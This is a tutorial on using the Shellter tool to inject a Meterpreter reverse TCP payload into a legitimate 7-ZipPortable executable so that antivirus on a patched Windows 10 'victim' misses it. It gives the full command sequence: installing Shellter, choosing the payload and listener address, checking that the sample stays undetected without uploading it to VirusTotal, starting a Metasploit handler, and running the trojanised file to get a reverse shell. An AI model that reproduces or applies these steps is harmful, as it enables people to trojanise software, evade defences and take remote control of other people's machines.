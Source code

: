 Shellter – The ultimate tool for AV evasion

Shellter Website - <https://www.shellterproject.com/><br>
<br>
**Attacker:** Kali Linux<br>
**Victim:** Windows 10 (fully patched, fully updated antivirus)
##Introduction
Shellter is a tool for injecting dynamic shellcode into win32 exe’s. The shellcode can be yours, or something you generate via a 3rd party framework such as Metasploit.<br>
Shellter preserves the original structure of the target executable and can be used in either Automatic or Manual mode. It can also be used to create encoded/self-decrypting payloads.<br>
<br>
In this tutorial, we will cover the automatic mode of operation.<br>
##Installation
You can either download and install Shellter from the Shellter Website or install using apt-get in Kali:
<code>
<div class="code">
root@kali:~$ <com>apt-get update && apt-get install shellter</com>
</div>
</code>
##Payload Creation
Start shellter and select [A] for automatic mode, then select your target .exe file.
<code>
<div class="code">
root@kali:~$ <com>shellter</com><br>
Choose Operation Mode - Auto/Manual (A/M/H): <com>A</com><br>
PE Target: <com>/root/Downloads/7-ZipPortable.exe</com>
</div>
</code>
On the payload menu, select [L] then [1] for Meterpreter_Reverse_TCP.<br>
Enter your IP address and port you wish to use the payload on.<br>
Note: If you select Stealth Mode, you must set [exitfunc] to [thread] in Metasploit.
<code>
<div class="code">
************<br>
* Payloads *<br>
************<br>
<br>
[1] Meterpreter_Reverse_TCP<br>
[2] Meterpreter_Reverse_HTTP<br>
[3] Meterpreter_Reverse_HTTPS<br>
[4] Meterpreter_Bind_TCP<br>
[5] Shell_Reverse_TCP<br>
[6] Shell_Bind_TCP<br>
[7] WinExec<br>
<br>
Use a listed payload or custom? (L/C/H): <com>L</com><br>
Select payload by index: <com>1</com><br>
SET LHOST: <com>192.168.1.162</com><br>
SET LPORT: <com>4321</com>
</div>
</code>
Shellter will now encode and obfuscate the payload.<br>
When the process is complete, hit [Enter] to exit.<br>
<br>
At this point you can either use the checkvt script from Veil Evasion (<https://www.veil-framework.com/how-to-safely-check-veil-payloads-against-virustotal/>) or Mubix’s vt-notify script (<https://github.com/mubix/vt-notify>) to safely check the payload against Virus Total. Alternatively, use the virus scanner of your target system to confirm the payload is undetectable. DO NOT upload your exe to Virus Total.
##Exploitation
<code>
<div class="code">
root@kali:~$ <com>msfconsole</com><br>
msf > <com>use exploit/multi/handler</com><br>
msf exploit(handler) > <com>set payload windows/meterpreter/reverse_tcp</com><br>
msf exploit(handler) > <com>set lhost 192.168.1.162</com><br>
msf exploit(handler) > <com>set lport 4321</com><br>
msf exploit(handler) > <com>exploit</com>
</div>
</code>
Run the payload on your Victim machine
<code>
<div class="code">
C:\7-ZipPortable><com>7-ZipPortable.exe</com>
</div>
</code>
Back in Kali, a Meterpreter session will open and you now have a reverse shell to your victim Windows 10 machine.
<code>
<div class="code">
[*] Meterpreter session 1 opened (192.168.1.162:4321 -> 192.168.1.11:49627) at 2015-10-05 00:39:33 +1100<br>
<br>
meterpreter > <com>shell</com><br>
Process 3788 created.<br>
Channel 1 created.<br>
Microsoft Windows [Version 10.0.10240]<br>
(c) 2015 Microsoft Corporation. All rights reserved.<br>
<br>
C:\7-ZipPortable> 
</div>
</code>

Tags: av-evasion
